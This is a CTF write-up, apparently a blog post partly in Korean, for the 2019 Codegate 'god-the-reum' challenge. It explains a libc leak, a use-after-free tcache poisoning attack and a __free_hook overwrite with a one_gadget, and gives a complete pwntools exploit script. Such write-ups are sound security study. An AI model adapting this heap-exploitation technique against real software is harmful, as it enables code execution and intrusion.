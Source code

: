 ```yaml
---
title: "2019 Codegate god-the-reum"
date: 2020-3-16
ctf: Codegate CTF
layout: post
---
```


* tcache exploit (glibc 2.27)
*  UAF
* __free_hook overwrite

```
[*] '/vagrant/ctf/god-the-reum'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structure

```
struct wallet{
    char* address;
    int*  ballence;
}
```

1. 0x420크기 이상의 청크 하나와 tcache에 들어갈만한 청크를 할당 후 withdraw 메뉴에서 free해줘서 unsorted bin을 leak해줄 수 있다.

2.  그리고 tcache bin에 들어가있는 청크의 fd를 __free_hook으로 overwrite해준다. (hidden menu UAF)

3. 그리고 청크 두개를 할당하고 __free_hook을 one_gadget으로 덮어준다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./god-the-reum')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./god-the-reum')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create(size):
	sla('select your choice :','1')
	sla('how much initial eth? :',str(size))

def deposit(idx,size): # append
	sla('select your choice :','2')
	sla('input wallet no :',str(idx))
	sla('how much deposit? :',str(size))

def withdraw(idx,size): # pop
	sla('select your choice :','3')
	sla('input wallet no :',str(idx))
	sla('how much you wanna withdraw? :',str(size))

def show():
	sla('select your choice :','4')

def quit():
	sla('select your choice :','5')

def hidden(idx,eth):
	sla('select your choice :','6')
	sla('input wallet no :',str(idx))
	sla('new eth :',eth)

create(0x420) # 0
create(0x60) # 1
withdraw(0,0x420)
show()
p.recvuntil('ballance ')
libc_base = int(p.recvline().strip()) - 0x3ebca0
log.info('libc_base : {}'.format(hex(libc_base)))
free_hook = libc_base + libc.symbols['__free_hook']
one_shot = libc_base + 0x10a38c

withdraw(1,0x60)
hidden(1,p64(free_hook))
create(0x60) # 2
create(0x60) # 3
hidden(3,p64(one_shot))

withdraw(2,0x60)

p.interactive()
```

